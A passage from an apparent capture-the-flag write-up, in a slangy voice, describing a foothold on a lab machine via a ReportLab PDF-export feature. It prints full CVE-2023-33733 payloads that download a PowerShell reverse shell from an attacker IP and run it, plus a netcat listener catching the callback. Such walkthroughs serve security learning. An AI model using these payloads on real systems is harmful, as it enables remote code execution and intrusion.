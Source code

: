 Now obviously, my villain arc would be to make a cert for George and sneak into professor-only land... but the site says “nah fam” if we try to sign a cert for anyone we’re not logged in as. So for now — we’re locked to our own account cert. We ball later.

## Foothold
So while poking around the site in my “click every button like a toddler” era, I notice this cute lil’ `Export Profile to PDF` feature. Being the nosy menace I am, I yeet that file into exiftool like:

```console
$ exiftool profile.pdf
```

Boom — ReportLab shows up in the metadata like "hey bestie, wanna pwn me!". Turns out, ReportLab has [CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733), a vuln so unhinged it basically lets you cosplay as the server’s Python interpreter. Like bruh, imagine putting your resume into LinkedIn and suddenly LinkedIn starts running your shell commands. So naturally, I stuffed my bio with something... special:

```html
<para>
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('curl -o shell.ps1 http://10.10.14.65:8000/shell.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
exploit
</font>
</para>
```

Translation: curl my PowerShell reverse shell from my attacker box. Then I run a Python webserver on port 8000 to serve the goods, which downloads our [PowerShell reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3).

```html
<para>
<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell ./shell.ps1') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
exploit
</font>
</para>
```

Meanwhile, I’m also running netcat and get a callback as the domain user `university\wao`.

```console
$ sudo nc -nlvp 443           
Listening on 0.0.0.0 443
Connection received on 10.10.11.39 60637

PS C:\Web\University> whoami
university\wao
```
